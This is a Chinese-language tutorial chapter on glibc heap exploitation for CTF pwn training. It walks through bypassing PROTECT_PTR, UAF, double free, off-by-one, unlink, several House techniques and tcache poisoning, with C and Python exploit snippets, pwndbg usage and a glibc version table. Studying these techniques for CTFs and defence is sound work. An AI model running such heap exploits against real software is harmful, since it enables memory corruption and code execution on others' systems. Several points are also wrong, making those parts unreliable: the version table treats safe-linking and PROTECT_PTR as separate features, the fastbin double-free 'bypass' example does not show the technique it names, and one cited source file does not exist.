glibc 2.32引入了`PROTECT_PTR`宏，对fastbin和tcache中的fd指针进行异或加密，大幅增加了堆利用难度：

```c
// glibc 2.32+ 的指针加密
#define PROTECT_PTR(pos, ptr) \
  ((__typeof(ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))

#define REVEAL_PTR(ptr)  PROTECT_PTR(&ptr, ptr)

// 存储时加密
e->next = PROTECT_PTR(&e->next, tcache->entries[tc_idx]);

// 读取时解密
tcache->entries[tc_idx] = REVEAL_PTR(e->next);
// REVEAL_PTR(e->next) = (pos >> 12) ^ e->next
```

**加密原理：**

加密使用chunk自身的堆地址右移12位（页对齐）作为异或密钥。由于堆地址是随机的（ASLR），攻击者需要先泄露堆地址才能正确计算fd指针的值。

**绕过思路：**

1. **堆地址泄露**：通过任意读漏洞泄露堆上某个chunk的地址
2. **计算密钥**：`key = pos >> 12`（pos是存储fd指针的地址）
3. **构造加密后的指针**：`encrypted_target = key ^ target_addr`

### 16.6.10 常见堆漏洞类型与利用

#### 16.6.10.1 堆溢出（Heap Overflow）

写入数据超过分配的chunk大小，覆盖相邻chunk的metadata或数据。

```c
// 堆溢出示例
char *a = malloc(0x10);
char *b = malloc(0x10);
// 漏洞点：读入长度超过分配大小
read(0, a, 0x100);  // 溢出！
// 此操作会覆盖:
// - a的用户数据区 (0x10字节)
// - a与b之间的gap (可能有对齐填充)
// - b的prev_size字段 (8字节)
// - b的size字段 (8字节)
// - b的fd/bk指针 (16字节)
// - b的用户数据 (继续溢出)
```

**堆溢出的利用价值：**

| 覆盖目标 | 可实现效果 | 难度 |
|----------|------------|------|
| b的size字段 | 改变chunk大小，影响后续分配 | 中等 |
| b的fd/bk指针 | 控制空闲链表，实现任意地址分配 | 高 |
| b的用户数据 | 数据混淆，逻辑漏洞 | 低 |
| b的prev_size + PREV_INUSE | 触发错误合并，UAF | 高 |

#### 16.6.10.2 Use-After-Free（UAF）

释放chunk后继续使用其指针，可能导致数据混淆或控制流劫持。

```c
// UAF示例
struct object {
    void (*callback)(char *);
    char data[16];
};

struct object *a = malloc(sizeof(struct object));
a->callback = legitimate_function;

free(a);  // 释放a

// 漏洞：程序仍然持有a的指针，并在之后使用
struct object *b = malloc(sizeof(struct object));
b->callback = malicious_function;  // b和a现在指向同一块内存！

a->callback(a->data);  // 实际调用的是b->callback，即malicious_function
```

**UAF的利用场景：**

1. **数据混淆**：free后的chunk被重新分配给不同类型的对象，类型混淆
2. **控制流劫持**：覆盖函数指针/虚表指针
3. **堆利用基础**：UAF是很多堆利用技术的前提条件

#### 16.6.10.3 Double Free

对同一个chunk调用free两次，导致空闲链表出现环形结构。

```c
// Double Free示例
char *a = malloc(0x10);
free(a);       // a进入tcache/fastbin
free(a);       // Double Free!

// 在tcache中（glibc 2.26-2.28）：
// tcache链表: a -> a -> a -> ... (环形)

// 分配两次，两次都返回a的地址
char *b = malloc(0x10);  // 返回a
char *c = malloc(0x10);  // 也返回a
// b和c指向同一块内存！
```

**glibc 2.23中的fastbin double free绕过：**

```c
// fastbin的检测只比较链表头
char *a = malloc(0x40);
char *b = malloc(0x40);  // 防止与top chunk合并
free(a);
// 此时 fastbin[4] -> a -> NULL

char *c = malloc(0x40);  // 从fastbin取出a，清空fastbin
// 此时 fastbin[4] -> NULL

free(a);  // 再次free a，检测通过！
// 此时 fastbin[4] -> a -> a -> NULL (环形)

char *d = malloc(0x40);  // 返回a
char *e = malloc(0x40);  // 也返回a
```

#### 16.6.10.4 Off-by-One

写入恰好比分配大小多一个字节，可能修改相邻chunk的PREV_INUSE位。

```c
// Off-by-one（null byte）示例
char *a = malloc(256);  // 0x100大小的chunk
char *b = malloc(256);

// Off-by-one null byte溢出
memset(a, 'A', 257);  // 第257个字节覆盖b的size字段的最低字节

// 如果b的size是 0x111 (0x100 + PREV_INUSE)
// 被覆盖为 0x100 (清除了PREV_INUSE位)
// 这意味着"b之前的chunk是空闲的"
// 后续free b时会尝试与"前一个空闲chunk"合并
```

**Off-by-one null byte的利用（Poison Null Byte）：**

这是CTF中非常经典的利用技术，通过off-by-one清空相邻chunk的PREV_INUSE位，触发错误的chunk合并，最终实现UAF。

#### 16.6.10.5 Unlink攻击

利用双向链表的unlink操作实现任意地址写。

```c
// 现代unlink宏（glibc 2.3.4+ 安全版本）
#define unlink(AV, P, BK, FD) {                            
    FD = P->fd;                                             
    BK = P->bk;                                             
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))  
        malloc_printerr (check_action, "corrupted double-linked list", P, AV);  
    else {                                                  
        FD->bk = BK;   // *(FD + 0x18) = BK               
        BK->fd = FD;   // *(BK + 0x10) = FD               
        // ...                                              
    }                                                       
}
```

**现代unlink利用条件：**

由于存在安全检查（`FD->bk != P || BK->fd != P`），直接伪造fd/bk不再可行。但如果我们能泄露堆地址，并将某个已知地址（如GOT表地址）的值设置为chunk的地址，仍然可以利用unlink实现有限的任意写：

```c
// 假设我们要写what到where
// 需要：leak堆地址P
P->fd = where - 0x18;  // FD = where - 0x18
P->bk = what;           // BK = what

// 安全检查: FD->bk == P
// *(where - 0x18 + 0x18) = *(where) == P ✓ (需要GOT/全局变量中存储P)
// BK->fd: *(what + 0x10) 需要可读且等于P (条件较难满足)
```

### 16.6.11 House系列利用技术

House系列是以堆管理器机制为基础的高级利用技术，每种技术针对不同的场景和防护级别：

#### 16.6.11.1 House of Force

**原理：** 通过堆溢出修改top chunk的size字段为最大值（0xffffffffffffffff），然后通过malloc一个精心计算的大小，使top chunk指针偏移到目标地址，下次malloc即可获得目标地址附近的chunk。

```python
# House of Force 示例
# 目标：覆盖target变量

# 1. 分配初始chunk
a = malloc(0x10)

# 2. 堆溢出修改top chunk size
# 需要覆盖a的用户数据区域到top chunk的size字段
payload = b'A' * 0x10      # 填充a的数据
payload += p64(0)           # prev_size
payload += p64(0xffffffffffffffff)  # top chunk size = -1 (最大值)
write(a, payload)

# 3. 计算偏移量
# 偏移量 = target_addr - (当前top chunk地址 + 0x10)
# 需要已知堆地址泄露
offset = target_addr - (top_chunk_addr + 0x10)

# 4. 分配一个大chunk，使top指针偏移到target附近
# 注意：分配大小需要加上chunk header的大小
evil_size = offset - 0x20  # 减去prev_size和size的大小
malloc(evil_size)

# 5. 现在top chunk指向target_addr附近
# 下一次malloc将返回target_addr
b = malloc(0x10)
# 现在b指向target_addr附近，可以覆盖target
write(b, p64(0xdeadbeef))
```

**House of Force的条件：**
1. 能修改top chunk的size字段
2. 能泄露堆地址
3. 能控制malloc的大小参数
4. glibc版本不能太新（2.29+对top chunk size有更严格的检查）

#### 16.6.11.2 House of Spirit

**原理：** 在栈上伪造一个fastbin chunk，然后free这个伪造的chunk，它会被放入fastbin链表。再次malloc相同大小时，会返回栈上的地址。

```c
// House of Spirit 示例
// 目标：在栈上获得一个可控的chunk

// 1. 在栈上构造伪造的chunk
unsigned long long fake_chunk[6];
fake_chunk[0] = 0;              // prev_size (不重要)
fake_chunk[1] = 0x41;           // size = 0x40 + PREV_INUSE
fake_chunk[2] = 0;              // 用户数据
fake_chunk[3] = 0;
fake_chunk[4] = 0;
fake_chunk[5] = 0;
// 还需要在size 0x40 + 0x40 = 0x80处有一个合法的next chunk size
fake_chunk[8] = 0x41;           // 下一个"chunk"的size (伪造)

// 2. Free伪造的chunk
free(&fake_chunk[2]);  // 放入fastbin[4]

// 3. Malloc返回栈上的地址
void *p = malloc(0x30);  // 返回 &fake_chunk[2]
// 现在p指向栈上，可以修改栈上的数据（如返回地址）
```

**House of Spirit的条件：**
1. 能控制free的参数（栈上的地址）
2. 伪造的chunk size在fastbin范围内
3. 伪造的next chunk size合法（通过free的检查）

#### 16.6.11.3 House of Lore

**原理：** 伪造small bin的链表结构，使malloc从small bin中取出的chunk指向任意地址。

```c
// House of Lore 需要：
// 1. 控制small bin中某个chunk的fd和bk指针
// 2. 构造满足安全检查的伪造链表

// 步骤：
// 1. 让目标chunk进入small bin
// 2. 修改其fd指向伪造的chunk（位于目标地址）
// 3. 修改伪造chunk的bk指向该chunk（通过安全检查）
// 4. Malloc时会从small bin中取出伪造的chunk
```

#### 16.6.11.4 House of Orange

**原理：** 不使用free，通过溢出修改top chunk的size使其被强制放入unsorted bin，然后利用unsorted bin attack和FSOP（File Stream Oriented Programming）获取shell。

**House of Orange的关键步骤：**

```python
# House of Orange (glibc < 2.26 无tcache)

# 1. 不free，直接通过堆溢出修改top chunk size
# size必须满足:
# - 对齐要求 (16B对齐)
# - 大于MINSIZE (0x10)
# - 小于所需大小 (触发扩展)
# - PREV_INUSE位为1

# 2. 分配比新size更大的chunk，触发top chunk替换
# 旧的top chunk会被放入unsorted bin

# 3. 利用unsorted bin attack写入大值到_IO_list_all

# 4. 伪造_IO_FILE结构，触发FSOP获取shell
```

#### 16.6.11.5 Tcache Poisoning

**原理：** 通过UAF或堆溢出修改tcache中chunk的fd指针，使malloc返回任意地址。

```python
# Tcache Poisoning (glibc 2.26-2.28，最简单的版本)
a = malloc(0x40)
b = malloc(0x40)

free(a)  # tcache: a -> NULL
free(b)  # tcache: b -> a -> NULL

# 利用UAF修改b的fd指针
# *(b) = target_addr
# 现在tcache: b -> target_addr -> ???

c = malloc(0x40)  # 返回b
# tcache: target_addr -> ???

d = malloc(0x40)  # 返回target_addr！
# 现在d指向target_addr
# 可以读写该地址

# glibc 2.32+ 需要考虑PROTECT_PTR
# 需要泄露堆地址来计算加密后的指针
```

**glibc 2.32+ 的Tcache Poisoning：**

```python
# 需要泄露堆地址
heap_base = leak_heap_address()
chunk_a_addr = heap_base + some_offset

# 计算加密密钥
pos = chunk_b_addr + 0x10  # fd指针的存储位置
key = pos >> 12

# 加密目标地址
encrypted_target = key ^ target_addr
# 写入 *(b) = encrypted_target
```

#### 16.6.11.6 Tcache Stashing Unlink Attack

**原理：** 利用tcache和small bin的交互，当tcache为空但small bin中有多个相同大小的chunk时，malloc会从small bin中取出一部分放入tcache（staking）。在这个过程中，会使用unlink操作，可以利用这个机会修改small bin的链表结构。

```python
# Tcache Stashing Unlink Attack
# 条件：tcache中该大小的chunk数量为0
# small bin中有多个相同大小的chunk

# 1. 让多个chunk进入small bin (例如3个)
# 2. 构造伪造的chunk，修改small bin链表
# 3. 触发malloc，使staking操作将small bin chunk放入tcache
# 4. staking过程中的unlink会写入可控值
```

### 16.6.12 堆调试与分析工具

掌握堆调试工具对于理解堆行为和开发利用技术至关重要：

#### 16.6.12.1 GDB + GEF/pwndbg

```bash
# 安装pwndbg
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh

# 常用堆调试命令（pwndbg）
pwndbg> heap              # 显示堆的基本信息
pwndbg> bins              # 显示所有bins的状态
pwndbg> tcache            # 显示tcache的状态
pwndbg> arena             # 显示arena信息
pwndbg> vis_heap_chunks   # 可视化堆chunk
pwndbg> find_fake_fast    # 查找可利用的伪造fastbin chunk
pwndbg> try_free <addr>   # 测试free某个地址的效果

# 查看特定chunk的详细信息
pwndbg> heap chunk <addr>
pwndbg> heap chunk -v <addr>  # 详细模式
```

#### 16.6.12.2 pwntools堆调试

```python
from pwn import *

# 启用堆调试日志
context.log_level = 'debug'

# 在脚本中检查堆状态
p = process('./vuln')

# 使用GDB附加调试
gdb.attach(p, '''
    set pagination off
    heap
    bins
    tcache
    c
''')
```

#### 16.6.12.3 Libc源码阅读

```bash
# 下载glibc源码
apt-get source libc6
# 或者从 https://sourceware.org/glibc/wiki/Downloading 获取

# 关键源码文件
malloc/malloc.c           # 主文件，包含malloc/free实现
malloc/hooks.c            # malloc hook机制
malloc/arena.c            # arena管理
malloc/tcache.c           # tcache实现
```

#### 16.6.12.4 堆可视化工具

```bash
# 使用GDB脚本可视化堆
# vis_heap_chunks 命令会显示类似以下内容：

pwndbg> vis_heap_chunks
0x602000	0x0000000000000000	0x0000000000000021	................	← chunk A (size=0x20)
0x602020	0x0000000000000000	0x0000000000000000	................
0x602040	0x0000000000000000	0x0000000000000031	................	← chunk B (size=0x30)
0x602060	0x0000000000000000	0x0000000000000000	................
0x602080	0x0000000000000000	0x0000000000000000	................
0x6020a0	0x0000000000000000	0x0000000000000411	................	← Top chunk (size=0x410)
```

### 16.6.13 不同glibc版本的堆行为对比

理解不同glibc版本的安全检查差异对于选择正确的利用技术至关重要：

| 检查项 | 2.23 | 2.26-2.28 | 2.29 | 2.32 | 2.34+ |
|--------|------|-----------|------|------|-------|
| tcache double free | N/A | 无检查 | key字段检查 | key + PROTECT_PTR | 增强检查 |
| fastbin double free | 比较链表头 | 比较链表头 | 比较链表头 | 比较+PROTECT_PTR | 增强检查 |
| unlink安全检查 | FD->bk==P | FD->bk==P | FD->bk==P | FD->bk==P | FD->bk==P |
| top chunk size检查 | 无 | 无 | 严格检查 | 严格检查 | 严格检查 |
| unsorted bin检查 | 基础 | 基础 | 增强 | 增强 | 增强 |
| malloc_hook | 有 | 有 | 有 | 有 | 移除 |
| PROTECT_PTR | 无 | 无 | 无 | 有 | 有 |
| safe-linking | 无 | 无 | 无 | 无 | 有 |

### 16.6.14 堆利用的学习路径



**推荐的CTF练习题目：**

| 难度 | 题目 | 知识点 |
|------|------|--------|
| 入门 | [CTF Wiki堆题目](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/) | 基础堆概念 |
| 中等 | hitcontraining系列 | fastbin、tcache |
| 较难 | how2heap | 各种house技术 |
| 困难 | 真实CVE分析 | 综合利用 |

**学习资源推荐：**

- **how2heap**（https://github.com/shellphish/how2heap）：Shellphish团队维护的堆利用教学仓库，包含从入门到高级的各种技术示例
- **CTF Wiki**（https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/）：中文堆利用教程
- **Glibc源码**：最权威的参考资料，malloc/malloc.c是核心
- **《深入理解计算机系统》（CSAPP）**：第9章虚拟内存，理解mmap和虚拟内存管理
- **Angel Boy的博客**：高质量的堆利用技术文章

### 16.6.15 常见误区与纠正

**误区1：chunk大小就是malloc的参数大小**

纠正：chunk大小 = 用户请求大小 + metadata（prev_size + size字段）+ 对齐填充。例如`malloc(0x10)`实际分配的chunk大小是0x20（32字节，包含16字节metadata）。

**误区2：free后内存被清零**

纠正：free只是修改metadata（size/标志位/fd/bk），用户数据区域不会被清零。这就是为什么free后的内存仍然可以读到旧数据（信息泄露的来源）。

**误区3：tcache优先于fastbin**

纠正：这是对的，分配时tcache优先。但释放时的流程是：先检查是否在tcache范围内且未满，如果是则放入tcache；否则才放入fastbin或unsorted bin。所以一个chunk不会同时出现在tcache和fastbin中。

**误区4：相邻的空闲chunk一定会被合并**

纠正：在fastbin和tcache中的chunk不会被合并。只有当chunk被放入unsorted bin时（即不在fastbin和tcache中），才会进行合并。这就是为什么fastbin double free可行——因为fastbin中的chunk不会检查相邻chunk的状态。

**误区5：所有chunk都有fd和bk字段**

纠正：已分配的chunk只有prev_size和size是metadata，fd/bk属于用户数据区域（被用户数据覆盖）。只有空闲chunk才有fd/bk指针结构。但已分配chunk的用户数据区域可以被任意写入，包括fd/bk位置，这正是堆溢出利用的关键。

**误区6：PROTECT_PTR让tcache poisoning失效**

纠正：PROTECT_PTR只是增加了利用难度（需要泄露堆地址），并没有使技术失效。只要能泄露堆地址，仍然可以计算正确的加密指针。在CTF题目中，堆地址泄露往往是利用链中的标准步骤。
